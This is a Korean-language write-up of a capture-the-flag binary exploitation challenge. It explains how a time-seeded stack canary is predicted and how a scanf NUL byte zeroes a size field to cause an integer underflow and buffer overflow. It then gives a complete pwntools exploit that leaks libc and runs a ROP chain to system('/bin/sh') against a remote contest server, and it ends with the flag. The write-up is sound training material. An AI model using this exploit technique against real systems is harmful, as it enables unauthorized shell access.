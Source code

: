```bash
[*] '/mnt/d/hk/_contest/2024JBU-CTF/Real-time Canary/challenge'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```
pie, canary가 없다.

challenge.c 파일이 주어지는 문제이다.
```C
#in main
srand(time(NULL));

#-----------------------------------------

void install(uint64_t *canary)
{
    *canary = 0;
    uint64_t tmp;
    for (int i = 0; i < 8; i++)
    {
        tmp = rand() % 0xff;
        *canary |= tmp << i * 8;
    }
        
    *canary &= 0xffffffffffffff00;
}

#------------------------------------------

void *guard(void *arg)
{
    uint64_t *canary = (uint64_t *)arg;
    uint64_t check = *canary;

    while (1)
    {
        if (check != *canary)
        {
            printf("\nerror\n");
            exit(1);
        }
    }
}
```
main함수를 실행하면 srand(time(NULL))을 통해 랜덤 함수를 초기화하고, canary를 생성한 뒤, 쓰레드를 생성해서 카나리가 변조되면 즉시 프로그램을 끈다.
그런데 srand(time(NULL)), rand()는 python 라이브러리 ctypes를 통해 완벽히 재현 가능하다. 리모트와의 시간차는 time에서의 offset을 조금 조정하다보면 쉽게 성공한다. 이렇게 카나리를 뚫을 수 있다.

```C
typedef struct
{
    char buf[0x2c];
    uint32_t size;
    uint64_t canary;

} Frame;

#-------------------------------------

#in main
case 2:
    printf("buf : ");
    scanf("%44s", frame.buf);
    while ((ch = getchar()) != '\n' && ch != EOF);
    
    printf("retry? ");
    scanf("%c", &c);
    while ((ch = getchar()) != '\n' && ch != EOF);
    
    if (c == 'y')
    {
        printf("buf : ");
        read(0, frame.buf, frame.size - 1);
    }
    
    break;
```

buf 바로 다음에 size가 있다. size는 초기에 0x2c로 초기화된다. scanf는 입력의 마지막에 NULL 값을 붙여준다. 따라서 첫 번째 입력에 44바이트를 다 채워서 보내면 size가 0이 되고, 두 번째 입력에서 Integer underflow에 의해 bof가 발생한다.
Ret2main으로 첫 번째 main에서는 libc_base를, 두 번째 main에서는 쉘을 따는 ROP를 진행한다.

# Exploit code
```python
from pwn import *
from ctypes import *

p = remote('44.210.9.208', 10011)
e = ELF('./challenge')
l = ELF('./libc-2.31.so')
lib = cdll.LoadLibrary('./libc-2.31.so')

canary = 0

def make_canary(offset: int):
    global canary
    canary = 0
    v0 = int(lib.time(0) + offset)
    lib.srand(v0)
    for i in range(8):
        tmp = lib.rand() % 0xff
        canary |= tmp << (i * 8)
    canary &= 0xffffffffffffff00

pop_rdi = 0x0000000000401673
main = 0x40142f
ret = 0x000000000040101a

def r(payload1: bytes, payload2: bytes):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'buf : ', payload1)
    p.sendlineafter(b'retry? ', b'y')
    p.sendlineafter(b'buf : ', payload2)

make_canary(0)
payload = b'a' * 48 + p64(canary) + b'a' * 8 + b'b' * 8 + p64(pop_rdi) + p64(e.got['puts']) + p64(e.sym['puts']) + p64(main)
r(b'a' * 44, payload)
p.sendlineafter(b'> ', b'3')
p.recvline()
l.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - l.sym['puts']
print(hex(l.address))

binsh = list(l.search(b'/bin/sh'))[0]
system = l.sym['system']

make_canary(0)
payload = b'a' * 48 + p64(canary) + b'a' * 8 + b'b' * 8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
r(b'a' * 44, payload)
p.sendlineafter(b'> ', b'3')
p.interactive()
```
`scpCTF{6N9Xf95ZkzkxFmOmGvSOoVDgANkAUy}`